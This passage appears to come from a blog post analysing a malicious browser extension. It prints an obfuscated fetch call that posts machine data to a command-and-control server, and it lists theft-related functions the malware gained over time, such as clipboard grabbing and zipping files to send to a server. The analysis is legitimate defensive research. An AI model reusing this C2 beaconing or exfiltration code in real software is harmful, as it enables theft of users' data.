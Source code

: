 ```
const _0x56b2ef = await fetch(_0x5bfae7 + "/machine/init", {
      'method': "POST",
      'headers': {
        'Accept': "application/json, application/xml, text/plain, text/html, *.*",
        'Content-Type': "application/json"
      },
      'body': JSON.stringify(_0x22a72c)
    });
```

The approach I ended up taking was looking at the exported functions of each `js` since these are in plaintext and doesn't seem to be randomized (unlike local variables).

For example, `grep -nri "export const" .`  returns:

![export const](/assets/posts/20240914/09_export_const.png)

Findings for this is that the following functions were added over time:
- `2023-09-14`: Add `getClipperData` function
- `2024-06-23`: Add `createZip`, `getFromStorage`, `modifyListUsers`, `sendZipToServer`, `transformZipData`, `traverseDirectories`, `getData`, etc

We can see that over time, they added fallback APIs to resolve the C2 domains. In the earliest versions of the extension we see only one method to resolve the domain.

![old](/assets/posts/20240914/10_old_blockinfo.png)
